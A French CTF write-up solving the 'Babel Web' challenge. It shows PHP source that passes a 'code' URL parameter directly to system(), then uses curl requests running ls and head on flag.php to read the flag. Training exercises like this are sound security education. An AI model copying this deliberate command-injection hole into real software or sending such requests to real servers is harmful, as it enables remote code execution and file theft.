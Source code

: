 ## Babel Web

Lien: http://challenges2.france-cybersecurity-challenge.fr:5001/

Un simple `curl http://challenges2.france-cybersecurity-challenge.fr:5001/`

Pour s'apercevoir du commentaire qui montre une page, `index.php?source=1`

Le résultat se trouve en une seule ligne, difficile de lire dans le terminal, on ouvre le lien avec un navigateur

`firefox http://challenges2.france-cybersecurity-challenge.fr:5001/?source=1`

D'après le nom du paramètre on se doute que c'est la source de l'`index.php` .

```HTML+PHP
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>    
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```

Le code récupère la valeur du paramètre `code` pour l'exécuter en tant que commande dans `@system()`

`curl http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?code=ls%20-la`

Ce qui exécute la commande `ls -la` qui permet d'afficher les fichiers cachés (ici il n'y en a pas)

`curl http://challenges2.france-cybersecurity-challenge.fr:5001/?code=cat%20flag.php`

ne marche pas, on peut simplement ouvrir le lien dans un navigateur et regarder la source (Ctrl+U)

`view-source:http://challenges2.france-cybersecurity-challenge.fr:5001/?code=cat%20flag.php`

ou `curl http://challenges2.france-cybersecurity-challenge.fr:5001/?code=head%20flag.php`

`head` une alternative à `cat` pour lire que le début d'un fichier, cette commande permet de lire le fichier via votre terminal avec `curl`.
